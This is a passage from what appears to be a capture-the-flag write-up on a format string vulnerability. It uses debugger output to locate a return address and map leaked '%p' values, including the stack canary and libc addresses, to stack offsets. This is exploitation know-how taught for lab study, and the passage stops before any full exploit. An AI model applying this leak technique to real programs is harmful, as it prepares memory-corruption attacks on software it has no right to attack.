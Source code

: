 ![image](attachments/moreprintfstackframe.png)

As you can see, our return address is at `0x7fffffffd7d8 —▸ 0x5555555552af (main+198)`

Let's look at what format string offsets we can control by changing `fprintf` output to `stdout` which outputs the format strings.

We can do this with `set $rdi=(void*)stdout`

We continue to the next instruction, and we see that we have the following values:

```
0x55555555d260,0x7ffff7af4191,0x7ffff7dd18c0,0x7ffff7ff5540,0x7fffffffd7b0,0x8663804b612c7c00,0x5555555552c0,0x7ffff7a05b97,0x2000000000
```

which corresponds to

```
06:0030│         0x7fffffffd700 —▸ 0x55555555d260 ◂— '%p,%p,%p,%p,%p,%p,%p,%p,%p\n'
07:0038│         0x7fffffffd708 —▸ 0x7ffff7af4191 (read+17) ◂— cmp    rax, -0x1000 /* 'H=' */
08:0040│         0x7fffffffd710 —▸ 0x7ffff7dd18c0 ◂— 0x0
09:0048│         0x7fffffffd718 —▸ 0x7ffff7ff5540 ◂— 0x7ffff7ff5540
...
1c:00e0│         0x7fffffffd7b0 ◂— 0x7fffffffd7b0
1d:00e8│         0x7fffffffd7b8 ◂— 0x8663804b612c7c00
1e:00f0│ rbp     0x7fffffffd7c0 —▸ 0x5555555552c0 (__libc_csu_init) ◂— endbr64
1f:00f8│         0x7fffffffd7c8 —▸ 0x7ffff7a05b97 (__libc_start_main+231) ◂— mov    edi, eax
20:0100│         0x7fffffffd7d0 ◂— 0x2000000000
```
